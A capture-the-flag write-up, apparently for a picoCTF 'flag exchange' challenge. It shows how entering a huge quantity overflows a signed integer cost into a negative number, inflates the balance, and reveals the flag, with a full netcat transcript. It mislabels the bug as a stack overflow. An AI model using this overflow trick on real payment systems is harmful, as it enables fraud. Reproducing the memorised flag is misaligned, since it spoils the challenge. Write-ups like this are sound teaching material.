 # 42 Solution
`store.c` contains the implementation of the server that we are interacting with via the netcat command presented in the query. The flag costs 100000 to purchase, but the starting funds of the account is 1100, with no apparent way to obtain more funds following the options given by the program.

Closer inspection of the `auction_choice == 1` clause reveals a stack overflow error in the program.

```
total_cost = 900*number_flags;
printf("\nThe final cost is: %d\n", total_cost);
if(total_cost <= account_balance){
    account_balance = account_balance - total_cost;
    printf("\nYour current balance after transaction: %d\n\n", account_balance);
}
```

By specifying a sufficient number of flags to purchase (saved as `number_flags`), we can cause an overflow in the saved representation of `total_cost` which is a signed int, such that the total cost is negative as opposed to a positive number smaller than `account_balance`.

Here is a stack trace of the interaction with the program to exploit this:

```
$ nc jupiter.challenges.picoctf.org 44566
Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
1
These knockoff Flags cost 900 each, enter desired quantity
3000000

The final cost is: -1594967296

Your current balance after transaction: 1594968396

Welcome to the flag exchange
We sell flags

1. Check Account Balance

2. Buy Flags

3. Exit

 Enter a menu selection
2
Currently for sale
1. Defintely not the flag Flag
2. 1337 Flag
2
1337 flags cost 100000 dollars, and we only have 1 in stock
Enter 1 to buy one1
YOUR FLAG IS: picoCTF{m0n3y_bag5_68d16363}
```